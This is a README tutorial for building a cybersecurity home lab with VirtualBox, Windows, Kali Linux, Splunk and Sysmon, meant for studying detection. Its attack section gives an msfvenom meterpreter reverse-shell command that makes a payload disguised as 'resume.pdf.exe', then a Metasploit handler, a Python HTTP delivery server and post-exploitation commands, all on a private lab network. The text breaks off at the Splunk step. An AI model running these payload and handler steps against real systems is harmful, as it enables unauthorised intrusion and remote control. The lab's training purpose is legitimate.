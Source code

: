 # BASIC-HOME-LAB

- ### **💡 What's a Home Lab?: Think of it as your digital workshop, a safe haven to tinker, test, and refine your cybersecurity skills. A Home Lab is a personalized setup where you can build virtual environments, play with cutting-edge tools, and simulate real-world scenarios, all from the comfort of your home. 🏠💡**

- ### **🔍 The Power of Practical Learning: Theory is essential, but the Home Lab takes you beyond the textbooks.  Hands-on learning allows you to grasp complex concepts, fortify your technical abilities, and face cyber challenges head-on! 🧠🔍**

---

## STEP 1: REQUIREMENTS :- 

### 1. VIRTUAL ENVIRONMENT : VIRTUAL BOX OR VMWARE :-

![Screenshot 2024-12-16 165429](https://github.com/user-attachments/assets/34ee4436-dc10-471e-8132-67049ac5bdf2)

- Virtualbox Link : https://www.virtualbox.org/wiki/Downloads

---

### 2. OPERATING SYSTEM : WINDOWS 10 AND KALI LINUX :-

### - WINDOWS-10/11: ![image](https://github.com/user-attachments/assets/1d4e8060-5225-44f7-9f1c-892d225ef48b)

- Windows ISO Image Link: https://www.microsoft.com/en-ca/software-download/windows10

---

### - KALI LINUX: ![image](https://github.com/user-attachments/assets/a83d0741-d51b-4c03-9df3-99327b2054f6)


- Kali Linux Link : [www.kali.org](https://www.kali.org/)

---

### 3. TOOLS USED : SPLUNK AND SYSMON WITH OLAF CONFIGURATION :-

### - SPLUNK ENTERPRISE: ![Screenshot 2024-12-16 170122](https://github.com/user-attachments/assets/84b9c38e-d06e-41d0-8898-af7d9abf359c)

- Splunk Link: https://www.splunk.com/en_us/download/splunk-enterprise.html

---

### - SYSMON: ![Screenshot 2024-12-16 172320](https://github.com/user-attachments/assets/ccd044ef-c637-4232-a242-374a58924de4)


- Sysmon Link: https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon

- Olaf Configuration: https://github.com/olafhartong/sysmon-modular/blob/master/sysmonconfig.xml

---

## STEP 2: CONFIGURATION :- 

- ### **🔧 Crafting the Perfect Virtual Workspace: A properly configured virtual machine is the cornerstone of your Home Lab, empowering you to experiment, fine-tune, and elevate your skills within a secure environment.🏠🔧**

- ### **🚀 Elevate Your Learning with Hands-On Virtualization: Theoretical knowledge forms the foundation, but the Home Lab catapults you into the realm of practical mastery. Take on cyber challenges with confidence, equip your mental toolkit, and embark on a journey of true skill refinement! 🚀🧠**

---

### A: CHANGE YOUR NETWORK OPTIONS BASED ON YOUR SCENARIO :-

- #### Scenario 1: Test tools using internet connectivity : Use default settings - NAT 

- #### Scenario 2: Analyze Malware and identify additional IOC: Use Internal network / unattached


![Screenshot 2024-12-19 070015](https://github.com/user-attachments/assets/32bb2cd4-4220-4ee6-8fc9-6594c6eb865a)


---

## **Since I'm using this home lab to analyze malware im gonna go for scenario 2** :-
 
###  1. **Change network to internal network and create a name for it** :

#### - On your windows machine -> Settings -> Network -> Internal network -> change name (Do the same for kali machine as well by selecting the name associated with windows machine) - **IN THEORY OUR 2 MACHINES ARE NOW IN THE SAME NETWORK**

---

###  2. **Statically assign the IP address for both machines** : 

#### - **On windows machine click -> Globe -> Internet and network settings -> Change Adapter options -> Right click ethernet -> properties -> IPV4 -> use following ip address -> for example 192.168.20.10 double check by opening cmd and ipconfig see the ip**

![Screenshot 2024-12-19 070753](https://github.com/user-attachments/assets/3134a9c3-c3cb-4030-b38d-42268dada9a8)



#### - **On kali machine right click ethernet icon -> edit connections -> wired connections -> settings -> ipv4 -> manual -> add -> 192.168.20.11 -> mask - 24 -> save double check with if config 
**
![Screenshot 2024-12-19 070628](https://github.com/user-attachments/assets/04daa2b9-c0df-40b9-912c-4b3039d63436)


#### - Head over to windows machine and try pinging kali and take a snapshot

#### - **Now you are ready to play around!**

---

## STEP 3: HOW TO GENERATE TELEMETRY AND DETECT EVIL :- 

#### Prerequisites :-

![Screenshot 2024-12-21 084318](https://github.com/user-attachments/assets/0334ce6a-6d58-48a1-a424-4ba9da0366ca)

---

### STEPS :-

- ### A. KALI :-

- #### A. Enable RDP on Windows! 

- Open Settings: -> Press Windows + I to open the Settings app. // Go to System > Remote Desktop: -> Toggle on the Enable Remote Desktop option. // Confirm your selection if prompted.
---
- #### B. Start scanning all portts using nmap :-

- On your kali open terminal -> type command nmap -A 192.168.20.10 -Pn where -Pn skips ping the ip adress is of our victim machine - windows machine and -A enables os detection version detection script scanning and traceroute : will identify any ports that are open
---
- #### C. Create our own malware :-

 - To get a list of payloads - msfvenom -l payloads

 - Enter msfvenom -p (paste your payload) windows/x64/meterpreter/reverse_tcp lhost=ip of attack machine 192.168.20.11 lport=4444 -f exe -o resume.pdf.exe

   [what this command does :- will generate our malware using meterpreter reverse tcp payload instructed to connect back to the machine based on lhost and lport file format will be an exe and name 
   being resume.exe ]
 
 - Verify with ls
---
 - ####  D. Open a handler that will listen in on the port we have configured in our malware :-

 - Open metasploit by typing msfconsole -> use exploit/multi/handler now we are in the exploit itself

 - Type options change the payload to reverse_tcp set payload (paste your payload) and set lhost as your attacker machine press enter check with options

 - Start the handler by typing in exploit : we are now listening in and waiting for our test machine to exe our malware
---
 - #### E. Setup a http server on our kali machine so our test machine can download the malware

 - New tab -> same directory ls -> python3 -m http.server 9999 -> enter [ this will allow our test machine to access our kali machine and start downloading the malware from there ]

---
 
 - ### B. WINDOWS :-

 - Go to security center -> virus and threat protection -> manage settings -> disable real time protection

 - Open browser and type in ip of kali : 192.168.20.11:9999 -> click resume.pdf.exe -> download and open it

 - Open cmd with admin priviledges -> netstat -anob [ to see an estb connection with our kali machine ]

 - Now head over to kali where looking at our handler we should have an open shell we now have a connection [ meterpreter tab ]

---
 
 - ### C. KALI II :-

 -  type in shell [ to establish shell on our test machine ]

 - type in net user

 - type in netl localgroup

 - type in ipconfig

---
 
 - ### D. SPLUNK :-
